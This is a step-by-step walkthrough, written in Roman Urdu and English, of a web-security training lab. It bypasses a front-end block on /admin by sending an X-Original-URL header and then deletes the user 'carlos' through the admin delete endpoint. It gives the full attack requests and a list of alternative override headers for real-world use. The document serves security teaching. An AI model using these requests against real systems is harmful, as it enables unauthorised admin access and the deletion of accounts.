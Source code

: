 # URL-based access control can be circumvented
(Summary):

Front-end par /admin path block hai. Lekin back-end framework X-Original-URL header ko support karta hai — is ka matlab hai hum header use karke real backend resource access kar sakte hain.

### ✅ Step-by-Step Solution:

### 🧩 Step 1: Try /admin

Browser ya Burp ky url mein yeh add karo /admin 

❌ Blocked milega — yaani front-end ne rok diya.

admin panel bhi nhi chale ga ACCESS DENIED

### 🧪 Step 2: Request ko Repeater mein bhejo
Burp Repeater open karo aur GET request bhejo:

Iss request main **GET /admin HTTP/1.1** **(admin)** ko remove karna hai

**GET / HTTP/1.1**

**Host: your-lab-id.web-security-academy.net**

**X-Original-URL: /invalid**

👀 Agar response 404 Not Found aye, iska matlab back-end ne X-Original-URL ko process kiya — bypass ka raasta mil gaya.

### 🛠️ Step 3: Real admin path try karo
Ab header mein X-Original-URL: /admin likho:

**GET / HTTP/1.1**

**Host: your-lab-id.web-security-academy.net**

**X-Original-URL: /admin**

✅ Admin panel mil gaya! 🎯

### 🧹 Step 4: Carlos ko delete karo
Ab delete endpoint use karo:

**GET /?username=carlos HTTP/1.1**

**Host: your-lab-id.web-security-academy.net**

**X-Original-URL: /admin/delete**

💣 Carlos delete ho gaya, lab complete!

## 🧠 Penetration Testing Tip:
Jab bhi tumhare samne koi frontend block ho URL par, to socho:

Kya backend koi alternative headers ko process karta hoga?

Common headers: X-Original-URL, X-Rewrite-URL, X-Forwarded-Path, X-Forwarded-For

Aise bypass real world mein load balancers aur reverse proxies ko dodge karne ke liye use hotay hain. Yeh technique bohot powerful hai agar backend mein misconfiguration ho.
